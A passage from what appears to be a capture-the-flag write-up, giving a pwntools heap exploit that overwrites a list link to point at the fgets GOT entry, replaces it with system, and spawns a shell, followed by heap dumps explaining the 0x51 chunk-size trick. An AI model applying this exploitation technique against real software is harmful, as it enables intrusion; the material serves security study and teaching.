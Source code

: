 ```py
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', flat([elf.got.system]))

# Might need for debugging heap where gdb.debug fails
# gdb.attach(io, gdbscript='''
# init-pwndbg
# continue
# ''')

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')

# Got Shell?
io.interactive()
```

Note when we overwrite the link in the list, we submit `0x51` afterwards to keep our heap intact, e.g. if we don't specify the next chunk's size, the heap won't know where it ends, and the next chunk begins. See the following output when we **don't** supply `0x51`.

```sh
0xd4c240	0x0000000000000000	0x0000000000000000	................
0xd4c250	0x0000000000000000	0x0000000000000000	................
0xd4c260	0x0000000000000000	0x0000000000000000	................
0xd4c270	0x0000000000000000	0x0000000000000000	................
0xd4c280	0x0000000000000000	0x0000000000000000	................
0xd4c290	0x0000000000000000	0x0000000000000000	................
0xd4c2a0	0x0000000000000000	0x0000000000000051	........Q.......
0xd4c2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0xd4c2c0	0x0000000000000000	0x0000000000000000	................
0xd4c2d0	0x0000000000000000	0x0000000000000000	................
0xd4c2e0	0x0000000000000000	0x0000000000000000	................
0xd4c2f0	0x0000000000d4c300	0x0000000000000051	........Q.......
0xd4c300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0xd4c310	0x0000000000000000	0x0000000000000000	................
0xd4c320	0x0000000000000000	0x0000000000000000	................
0xd4c330	0x0000000000000000	0x0000000000000000	................
```

But when **do** we supply the `0x51`, the top chunk is visible.

```sh
0x224e2a0	0x0000000000000000	0x0000000000000051	........Q.......
0x224e2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0x224e2c0	0x0000000000000000	0x0000000000000000	................
0x224e2d0	0x0000000000000000	0x0000000000000000	................
0x224e2e0	0x0000000000000000	0x0000000000000000	................
0x224e2f0	0x000000000224e300	0x0000000000000051	..$.....Q.......
0x224e300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0x224e310	0x0000000000000000	0x0000000000000000	................
0x224e320	0x0000000000000000	0x0000000000000000	................
0x224e330	0x0000000000000000	0x0000000000000000	................
0x224e340	0x0000000000404040	0x0000000000000051	@@@.....Q.......
0x224e350	0x00325f4b4e550000	0x0000000000000000	..UNK_2.........
0x224e360	0x0000000000000000	0x0000000000000000	................
0x224e370	0x0000000000000000	0x0000000000000000	................
0x224e380	0x0000000000000000	0x0000000000000000	................
0x224e390	0x0000000000000000	0x000000000001fc71	........q....... <-- Top chunk
```
